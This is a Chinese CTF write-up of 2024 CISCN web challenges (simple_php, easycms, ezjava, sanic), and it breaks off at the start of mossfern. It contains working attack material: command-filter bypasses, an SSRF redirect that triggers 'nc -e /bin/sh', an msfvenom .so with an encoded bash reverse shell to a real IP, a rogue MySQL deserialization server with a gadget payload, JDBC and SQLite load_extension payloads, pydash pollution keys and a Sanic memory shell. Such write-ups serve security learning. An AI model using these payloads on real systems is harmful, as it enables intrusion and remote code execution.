---
title: "2024CISCN国赛web浮现"
date: 2026-03-06T16:21:57+08:00
summary: "2024CISCN国赛web"
url: "/posts/2024CISCN国赛web浮现/"
categories:
  - "赛题wp"
tags:
  - "2024CISCN国赛"
draft: false
---

# simple_php

## #php命令执行绕过

```php
<?php
ini_set('open_basedir', '/var/www/html/');
error_reporting(0);

if(isset($_POST['cmd'])){
    $cmd = escapeshellcmd($_POST['cmd']); 
     if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i', $cmd)) {
         system($cmd);
}
}


show_source(__FILE__);
?>
```

有一个escapeshellcmd函数的转义和一堆黑名单过滤



既然有这个转义的话可以直接在里面执行`php -r `去执行php代码，可以避免转义问题

```php
cmd=php -r phpinfo();
```



看到开启了mysql支持，尝试一下弱口令登录mysql服务器

```bash
cmd=php -r echo `mysql -u root -p root`
```

额，没啥回显，这里的话可以用-e参数直接执行sql语句，但是就设计到单引号的绕过了，可以用hex2bin函数去进行绕过

但是因为加不了引号，里面开头是数字的话，就会将类型识别为数字，若后续出现了字符串就会报错，所以还需要用substr函数去截取一下

```php
cmd=php -r system(hex2bin(substr(_6d7973716c202d7520726f6f74202d70726f6f74202d65202773686f77206461746162617365733b27,1)));

=> php -r system("mysql -u root -proot -e 'show databases;'");

回显
Database
PHP_CMS
information_schema
mysql
performance_schema
test
```

所以找一下flag

```php
mysql -u root -proot -e 'show tables from PHP_CMS;'
mysql -u root -proot -e 'show columns from PHP_CMS.F1ag_Se3Re7;'
mysql -u root -proot -e 'select flag66_2024 from PHP_CMS.F1ag_Se3Re7;'
```

# easycms

## #SSRF

迅睿CMS的框架

扫个目录看看

```bash
[16:55:08] Scanning:
[16:57:53] 200 -   72KB - /0
[17:00:57] 302 -     0B - /admin.php  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/admin.php?c=login&m=index&go=%252Fadmin.php
[17:04:37] 301 -   169B - /api  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/api/
[17:04:37] 403 -   555B - /api/
[17:05:52] 301 -   169B - /cache  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/cache/
[17:05:52] 403 -   555B - /cache/
[17:06:57] 301 -   169B - /config  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/config/
[17:07:06] 403 -   555B - /config/
[17:09:07] 200 -   17KB - /favicon.ico
[17:09:20] 200 -   178B - /flag.php
[17:10:35] 200 -   72KB - /index.html
[17:10:35] 200 -   72KB - /index.php
[17:10:37] 200 -   72KB - /index.php-bak
[17:10:37] 200 -   72KB - /index.php.bak
[17:10:37] 200 -   72KB - /index.php.
[17:10:37] 200 -   72KB - /index.php/login/
[17:10:37] 200 -   72KB - /index.php3
[17:10:38] 200 -   72KB - /index.php4
[17:10:37] 200 -   72KB - /index.php~
[17:10:37] 200 -   72KB - /index.php5
[17:10:38] 200 -   72KB - /index.php::$DATA
[17:10:43] 302 -     0B - /install.php  ->  index.php?c=install
[17:10:46] 302 -     0B - /install.php?profile=default  ->  index.php?c=install
[17:11:14] 200 -    2KB - /LICENSE
[17:12:16] 301 -   169B - /mobile  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/mobile/
[17:14:31] 200 -   717B - /Readme.txt
[17:16:13] 301 -   169B - /static  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/static/
[17:17:02] 301 -   169B - /template  ->  http://d5d8c0ca-878a-4078-8c12-5b811d7ef97e.challenge.ctf.show/template/
[17:17:02] 403 -   555B - /template/
[17:17:20] 200 -    3KB - /test.php
```

提示了有一个/flag.php

```php
<?php
    if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){  
        echo "Just input 'cmd' From 127.0.0.1";  
        return;
    }else{  
        system($_GET['cmd']); 
    }
```

访问出来回显

```bash

Warning: file_put_contents(2.txt): failed to open stream: Permission denied in /var/www/html/flag.php on line 2
Just input 'cmd' From 127.0.0.1
```

估计是要打ssrf，去漏洞官网找找

https://m.xunruicms.com/bug/%C2%A0



在/dayrui/Fcms/Control/Api/Api.php中看到qrcode函数的利用，qrcode 方法接收了 GET 传入的 `text` 和 `thumb` 以及 `level`，其中 `thumb` 的值如果是 URL 则会带入到 `getimagesize` 函数中，从而触发 SSRF 漏洞。

找不到源码了，直接用师傅的图片吧





有一个很明显的curl解析，所以构造thumb参数处传入url，302跳转到本地访问flag.php，并传入参数cmd，反弹shell

```bash
index.php?s=api&c=api&m=qrcode&text=123&size=10&level=1&thumb=http://ip:port
```

在vps上起一个flask302跳转，执行命令

```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def index():
    return redirect("http://127.0.0.1/flag.php?cmd=nc ip port -e /bin/sh")


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=21000)
```



# ezjava

## #mysqlJDBC+AJ链任意文件写入

## #SqliteJDBC加载恶意so

先把源码下下来看看

jdbc控制器

```java
package com.example.jdbctest.controller;

import com.example.jdbctest.bean.JdbcBean;
import com.example.jdbctest.bean.ResultBean;
import com.example.jdbctest.services.DatasourceServiceImpl;
import javax.annotation.Resource;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@RequestMapping({"/jdbc"})
@Controller
/* loaded from: app.jar:BOOT-INF/classes/com/example/jdbctest/controller/JdbcController.class */
public class JdbcController {

    @Resource
    private DatasourceServiceImpl datasourceServiceImpl;

    @GetMapping({"/index"})
    public String index() {
        return "mainpage";
    }

    @RequestMapping({"/connect"})
    @ResponseBody
    public ResultBean connect(@RequestBody JdbcBean jdbcBean) {
        try {
            return new ResultBean(1, String.join(",", this.datasourceServiceImpl.testDatasourceConnectionAble(jdbcBean)));
        } catch (Exception e) {
            return new ResultBean(0, "连接失败");
        }
    }
}
```

`/connect`路由下从请求体中接收JSON并封装为JdbcBean，随后调用testDatasourceConnectionAble函数进行测试连接并返回结果

跟进testDatasourceConnectionAble函数看看

```java
    public String[] testDatasourceConnectionAble(JdbcBean jdbcBean) throws ClassNotFoundException, SQLException {
        DatasourceLoadConfig datasourceLoadConfig = this.datasourceLoadConfig;
        Map<String, String> config = DatasourceLoadConfig.getConfig();
        switch (jdbcBean.getType().intValue()) {
            case 1:
                Class.forName(config.get("JDBC-MYSQL"));
                MysqlDatasourceConnector mysqlDatasourceConnector = new MysqlDatasourceConnector(DriverManager.getConnection(jdbcBean.getUrl()));
                if (jdbcBean.getTableName() != null) {
                    return mysqlDatasourceConnector.getTableContent(jdbcBean.getTableName());
                }
                return mysqlDatasourceConnector.getTables();
            case 2:
                Class.forName(config.get("JDBC-POSTGRES"));
                PostgresDatasourceConnector postgresDatasourceConnector = new PostgresDatasourceConnector(DriverManager.getConnection(jdbcBean.getUrl()));
                if (jdbcBean.getTableName() != null) {
                    return postgresDatasourceConnector.getTableContent(jdbcBean.getTableName());
                }
                return postgresDatasourceConnector.getTables();
            case 3:
                SqliteDatasourceConnector sqliteDatasourceConnector = new SqliteDatasourceConnector(jdbcBean.getUrl());
                if (jdbcBean.getTableName() != null) {
                    return sqliteDatasourceConnector.getTableContent(jdbcBean.getTableName());
                }
                return sqliteDatasourceConnector.getTables();
            case 4:
                Class.forName(config.get("JDBC-SQLITE"));
                return new String[]{""};
            default:
                return new String[]{""};
        }
    }
```

 从JdbcBean中获取一个参数作为测试连接的数据库类型，这里`jdbcBean.getUrl()`没有做校验，那就可以打JDBC反序列化

看看依赖

```java
mysql-connector-java-8.0.13.jar
postgresql-42.7.2.jar
```

很明显这里mysql的jdbc依赖是有漏洞的，但是需要结合其他的链子去打，没找到什么可用的链子emmm

依赖里面有aspectjweaver，可以打任意文件写入，但是需要一个触发put方法的点

看到有一个UserBean

```java
package com.example.jdbctest.bean;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.util.Base64;
import java.util.HashMap;

/* loaded from: app.jar:BOOT-INF/classes/com/example/jdbctest/bean/UserBean.class */
public class UserBean implements Serializable {
    private String name;
    private String age;
    private Object obj;

    public UserBean(String name, String age) {
        this.name = name;
        this.age = age;
    }

    public UserBean() {
    }

    public String getAge() {
        return this.age;
    }

    public void setAge(String age) {
        this.age = age;
    }

    public Object getObj() {
        return this.obj;
    }

    public void setObj(Object obj) {
        this.obj = obj;
    }

    public String getName() {
        return this.name;
    }

    public void setName(String name) {
        this.name = name;
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        HashMap<String, byte[]> a = (HashMap) gf.get("obj", (Object) null);
        String name = (String) gf.get("name", (Object) null);
        String age = (String) gf.get("age", (Object) null);
        if (a == null) {
            this.obj = null;
            return;
        }
        try {
            a.put(name, Base64.getDecoder().decode(age));
        } catch (Exception var7) {
            var7.printStackTrace();
        }
    }
}

```

在readObject中有一个a.put方法，并且这个a是可控的，那可以尝试通过mysql的jdbc反序列化去触发UserBean#readObject方法，从而打aspectjweaver任意文件写入

但是写什么文件呢？



这里能打sqlite的jdbc攻击，看到sqlite的依赖有漏洞CVE-2023-32697

参考文章：https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247486394&idx=1&sn=f8a2672a3ce7f650151333edff5ef2e7&scene=21&poc_token=HMenq2mjjBIkX-RlBfQZWaIhw4_BrUV-pRqSESfZ

通过sqlite去执行load_extension()函数加载恶意so文件

总结攻击手法就是：

利用mysql的jdbc反序列化结合aspectjweaver任意文件写入打入恶意反序列化数据写入so文件，再sqlite加载恶意so文件

先用msfvenom生成恶意so文件，这个工具kali有

```java
msfvenom -p linux/x64/exec CMD='bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTYuMjM5LjIzOC4xMzAvMjMzMyAwPiYx}|{base64,-d}|{bash,-i}' -f elf-so -o evil.so
```

然后写个poc先生成一个带有恶意数据的UserBean对象并写入文件

```java
package com.example.jdbctest.poc;

import com.example.jdbctest.bean.UserBean;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class POC {
    public static void main(String[] args) throws Exception {
        String filename = "../../../../../../../../tmp/evil.so";    //写入的文件路径
        byte[] fileBytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\java\\sources\\com\\example\\jdbctest\\evil.so"));
        String content = Base64.getEncoder().encodeToString(fileBytes); //根据readObject中解码操作对文件内容进行编码
        UserBean userBean = new UserBean(filename,content);
        Class c = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor ctor = c.getDeclaredConstructor(String.class, int.class);
        ctor.setAccessible(true);
        HashMap storeableCachingMap = (HashMap) ctor.newInstance(".",1);//第一个是文件夹，第二个任意数字即可
        userBean.setObj(storeableCachingMap);
        serialize(userBean,"output.ser");
    }
    //序列化写入文件操作
    public static void serialize(Object object, String fileName) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(fileName));
        oos.writeObject(object);
        oos.close();
    }
    //反序列化文件数据操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

然后需要起一个mysql服务，回包为恶意序列化的数据

借用师傅的脚本

```python
import socket
import binascii
import os
 
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"
 
def receive_data(conn):
    data = conn.recv(1024)
    print("[*] Receiveing the package : {}".format(data))
    return str(data).lower()
 
def send_data(conn,data):
    print("[*] Sending the package : {}".format(data))
    conn.send(binascii.a2b_hex(data))
 
def get_payload_content():
    file= r'output.ser'
    if os.path.isfile(file):
        with open(file, 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
        print("open successs")
 
    else:
        print("open false")
        #calc
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
    return payload_content

sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sk.bind(("0.0.0.0", 3309))
sk.listen(5) 
# 主要逻辑
def run():
 
    while 1:
        conn, addr = sk.accept()
        print("Connection come from {}:{}".format(addr[0],addr[1]))
 
        # 1.先发送第一个 问候报文
        send_data(conn,greeting_data)
 
        while True:
            # 登录认证过程模拟  1.客户端发送request login报文 2.服务端响应response_ok
            receive_data(conn)
            send_data(conn,response_ok_data)
 
            #其他过程
            data=receive_data(conn)
            #查询一些配置信息,其中会发送自己的 版本号
            if "session.auto_increment_increment" in data:
                _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
                send_data(conn,_payload)
                data=receive_data(conn)
            elif "show warnings" in data:
                _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
                send_data(conn, _payload)
                data = receive_data(conn)
            if "set names" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "set character_set_results" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "show session status" in data:
                mysql_data = '0100000102'
                mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
                mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
                # 为什么我加了EOF Packet 就无法正常运行呢？？
                # //获取payload
                payload_content=get_payload_content()
                # //计算payload长度
                payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
                payload_length_hex = payload_length[2:4] + payload_length[0:2]
                # //计算数据包长度
                data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
                data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
                mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
                mysql_data += str(payload_content)
                mysql_data += '07000005fe000022000100'
                send_data(conn, mysql_data)
                data = receive_data(conn)
            if "show warnings" in data:
                payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
                send_data(conn, payload)
            break
if __name__ == "__main__":
    run()
```

先用mysql的jdbc打AJ链写入so文件

```json
{
"type":"1",
"url":"jdbc:mysql://156.239.238.130:3309/a?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor"
 }
```

然后再打sqlite，指定tableName，加载写入的恶意so文件，反弹shell

```json
{
"type":"3",
"tableName":"(select (load_extension(\"/tmp/evil.so\")));",
 "url":"jdbc:sqlite:file:/tmp/db?enable_load_extension=true"
 }
```

但是一直没弹成功，不知道为啥

# sanic

打开题目显示where is my flag?

在源码找到一个/src路由，访问拿到源码

```python
from sanic import Sanic
from sanic.response import text, html
from sanic_session import Session
import pydash
# pydash==5.1.2


class Pollute:
    def __init__(self):
        pass


app = Sanic(__name__)
app.static("/static/", "./static/")
Session(app)


@app.route('/', methods=['GET', 'POST'])
async def index(request):
    return html(open('static/index.html').read())


@app.route("/login")
async def login(request):
    user = request.cookies.get("user")
    if user.lower() == 'adm;n':
        request.ctx.session['admin'] = True
        return text("login success")

    return text("login fail")


@app.route("/src")
async def src(request):
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")

    return text("forbidden")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

配置了静态目录

在`/login`登录路由中，从 Cookie 中读取 `user` 字段，如果值为`adm;n`就会设置session的admin值为True，但是这里需要绕过Cookie的截断

## sanic中Cookie截断绕过

看看cookie的解析，这里用的并不是python自带的requests库，而是用的sanic.request.types.Request.cookies

```python
    @property
    def cookies(self) -> RequestParameters:
        """Incoming cookies on the request

        Returns:
            RequestParameters: Incoming cookies on the request
        """

        if self.parsed_cookies is None:
            self.get_cookies()
        return cast(CookieRequestParameters, self.parsed_cookies)
```

如果cookie并没有被解析过就会调用get_cookies方法，跟进该方法

```python
    def get_cookies(self) -> RequestParameters:
        cookie = self.headers.getone("cookie", "")
        self.parsed_cookies = CookieRequestParameters(parse_cookie(cookie))
        return self.parsed_cookies
```

读取cookie后尝试调用parse_cookie方法解析cookie，继续跟进



这里的话有这么一行代码，如果value是带引号的话，就会调用`_unquote`对value进行了一些转义的处理，我们跟进看看

```python
def _unquote(str):  # no cov
    if str is None or len(str) < 2:
        return str
    if str[0] != '"' or str[-1] != '"':
        return str

    str = str[1:-1]

    i = 0
    n = len(str)
    res = []
    while 0 <= i < n:
        o_match = OCTAL_PATTERN.search(str, i)
        q_match = QUOTE_PATTERN.search(str, i)
        if not o_match and not q_match:
            res.append(str[i:])
            break
        # else:
        j = k = -1
        if o_match:
            j = o_match.start(0)
        if q_match:
            k = q_match.start(0)
        if q_match and (not o_match or k < j):
            res.append(str[i:k])
            res.append(str[k + 1])
            i = k + 2
        else:
            res.append(str[i:j])
            res.append(chr(int(str[j + 1 : j + 4], 8)))  # noqa: E203
            i = j + 4
    return "".join(res)
```

对带引号的value进行处理，先是取出外层的引号，并循环解析字符串，这里支持八进制的转义和普通的转义，**所以sanic处理cookie的时候会对八进制字符进行一个转义**

那么sanic可以通过用八进制绕过Cookie

### 绕过poc

 ```http
 Cookie: user="adm\073n"
 ```



在`/admin`路由中校验了session的admin的值，并获取key和value，要求key是字符串类型，并且过滤了`_.`，满足条件后调用 `pydash.set_`设置对应对象的属性值

## pydash原型链污染

pydash==5.1.2版本，这里的话就是一个漏洞点，pydash支持**链式路径**来设置嵌套属性，也就是pydash原型链污染

https://blog.abdulrah33m.com/prototype-pollution-in-python/

p牛的文章里也有提到过

https://furina.org.cn/2023/12/18/prototype-pollution-in-pydash-ctf/

举个例子

```python
>>> from pydash import set_
>>> class User:
...     def __init__(self):
...         pass
... 
>>> test_str = '12345'
>>> set_(User(),'__class__.__init__.__globals__.test_str','789666')
>>> print(test_str)
789666
```

 但是这里过滤了`_.`该怎么做呢？我们跟进`set_`函数，一路来到pydash.objects#update_with()方法



这里有一个key的处理，跟进to_path_tokens方法
```python
def to_path_tokens(value):
    """Parse `value` into :class:`PathToken` objects."""
    if pyd.is_string(value) and ("." in value or "[" in value):
        # Since we can't tell whether a bare number is supposed to be dict key or a list index, we
        # support a special syntax where any string-integer surrounded by brackets is treated as a
        # list index and converted to an integer.
        keys = [
            PathToken(int(key[1:-1]), default_factory=list)
            if RE_PATH_LIST_INDEX.match(key)
            else PathToken(unescape_path_key(key), default_factory=dict)
            for key in filter(None, RE_PATH_KEY_DELIM.split(value))
        ]
    elif pyd.is_string(value) or pyd.is_number(value):
        keys = [PathToken(value, default_factory=dict)]
    elif value is UNSET:
        keys = []
    else:
        keys = value

    return keys
```

如果value是字符串且包含`.`或者`[`的话，也就是链式路径，随后会用`RE_PATH_KEY_DELIM.split`按照表达式分割value

```python
RE_PATH_KEY_DELIM = re.compile(r"(?<!\\)(?:\\\\)*\.|(\[\d+\])")
```

简单来说这里根据`|`分为两种，一种是`.`的处理，要求前面不能是单个反斜杠，只能是零或多个**成对的**反斜杠，另一种是`[`的处理，匹配**数组下标**

到这里想必就可以知道该怎么写poc了

例如改一下刚刚的demo

```python
import pydash

class User:
    def __init__(self):
        pass
test_str = "12345"

user = User()
pydash.set_(user,'__class__\\.__init__.__globals__.test_str','11111')
print(test_str)
pydash.set_(user,'__class__\\\\.__init__.__globals__.test_str','11111')
print(test_str)
#12345
#11111
```

### 污染poc

因为/src路由种有一个`__FILE__`属性，可以读取并返回内容，我们可以将这个属性改成指定文件，例如`/flag`

```json
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.__file__","value":"[flag路径]"}
```

记得在login登录成功后会有一个返回的session，在进行污染的时候需要带上这个session

### 读取环境变量

环境变量查看 `/proc/1/environ`



### 根目录或者当前目录flag

#### 如何找到flag的位置

还记得一开始说的开启了static静态路由吗？

我们进入static看看



`directory_view`：是否允许 **直接浏览目录**

`directory_handler`：**自定义目录浏览时的处理逻辑**

directory_view直接设置就行了，看DirectoryHandler这个类的构造函数



大致意思是将URL映射到某个文件目录上，并定义访问目录时的操作，directory_view设置为True运行浏览目录

关键在于如何获取到这个对象呢？

起点是 **静态文件路由对象static**，通过该对象去设置获得DirectoryHandler对象，然后污染类中的directory_view属性和directory属性

1.获取静态文件路由对象

```python
app.router.name_index['__mp_main__.static']
// 返回注册在应用中的静态文件路由对象
```

然后看看需要操作的属性

在app.static下打上断点



所以最终的poc

#### 修改directory_view对象的值

```json
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory_view","value":"True"}
```



然后配置directory ，因为directory的值为`WindowsPath('C:/Users/23232/Desktop/附件/source/static')`是一个对象，输出在parts中，但parts是一个tuple，pydash可以处理对象obj、列表[]、字典{}，不能处理tuple、set等

看一看parts是如何被赋值的

在static函数中有这段操作i


跟进看看file_or_directory

```python
file_or_directory = Path(file_or_directory).resolve()
```

是一个path对象，也就是说directory是一个path对象，继续往下

我一直回溯不到那个点，这里就用师傅的图吧



在_from_parts函数中，parts赋值给`_parts`属性



不过我后面找到了相应的代码，但是可能是sanic版本不一样吧



这里进行了一个赋值操作

directory的_parts属性，输出一个列表

```python
例如师傅中的路径
['F:\\', 'python_projects', 'sanic', 'static']
```

那么我们可以直接污染

#### 修改directory对象的值

```python
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.app.router.name_index.__mp_main__\\.static.handler.keywords.directory_handler.directory._parts","value":["/"]}
```



看到flag的位置了，直接污染到src中就行了

```python
{"key":"__class__\\\\.__init__\\\\.__globals__\\\\.__file__","value":"/24bcbd0192e591d6ded1_flag"}
```



## sanic打内存马

当然也可以打sanic的内存马

```python
eval('app.add_route(lambda request:__import__('os').popen(request.args.get('cmd')).read(),'/shell',method=['GET','POST'])')
```

参考文章：

https://dawnrisingdong.github.io/2024/07/16/CISCN2024%E5%88%9D%E8%B5%9B-web-wp/#sanic

https://blog.csdn.net/uuzeray/article/details/139052904

# mossfern

```bash
小明最近搭建了一个学习 Python 的网站，他上线了一个 Demo。据说提供了很火很安全的在线执行功能，你能帮他测测看吗？
```

先看看附件

main.py

```python
import os
import subprocess
from flask import Flask, request, jsonify
from uuid import uuid1

app = Flask(__name__)

runner = open("/app/runner.py", "r", encoding="UTF-8").read()
flag = open("/flag", "r", encoding="UTF-8").readline().strip()


@app.post("/run")
def run():
    id = str(uuid1())
    try:
        data = request.json
        open(f"/app/uploads/{id}.py", "w", encoding="UTF-8").write(
            runner.replace("THIS_IS_SEED", flag).replace("THIS_IS_TASK_RANDOM_ID", id))
        open(f"/app/uploads/{id}.txt", "w", encoding="UTF-8").write(data.get("code", ""))
        run = subprocess.run(
            ['python', f"/app/uploads/{id}.py"],
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            timeout=3
        )
        result = run.stdout.decode("utf-8")
        error = run.stderr.decode("utf-8")
        print(result, error)


        if os.path.exists(f"/app/uploads/{id}.py"):
            os.remove(f"/app/uploads/{id}.py")
        if os.path.exists(f"/app/uploads/{id}.txt"):
            os.remove(f"/app/uploads/{id}.txt")
        return jsonify({
            "result": f"{result}\n{error}"
        })
    except:
        if os.path.exists(f"/app/uploads/{id}.py"):
            os.remove(f"/app/uploads/{id}.py")
        if os.path.exists(f"/app/uploads/{id}.txt"):
            os.remove(f"/app/uploads/{id}.txt")
        return jsonify({
            "result": "None"
        })


if __name__ == "__main__":
    app.run("0.0.0.0", 5000)
```

一个POST请求的`/run`路由，就是一个代码调试器，分别往`/app/uploads/{id}.py`和`/app/uploads/{id}.txt`写了东西，随后调用subprocess.run运行了刚刚的python文件并输出报错和结果，最后删掉这两个文件

看看runner.py是什么东西

```python
def source_simple_check(source):

    """
    Check the source with pure string in string, prevent dangerous strings
    :param source: source code
    :return: None
    """

    from sys import exit
    from builtins import print

    try:
        source.encode("ascii")
    except UnicodeEncodeError:
        print("non-ascii is not permitted")
        exit()

    for i in ["__", "getattr", "exit"]:
        if i in source.lower():
            print(i)
            exit()


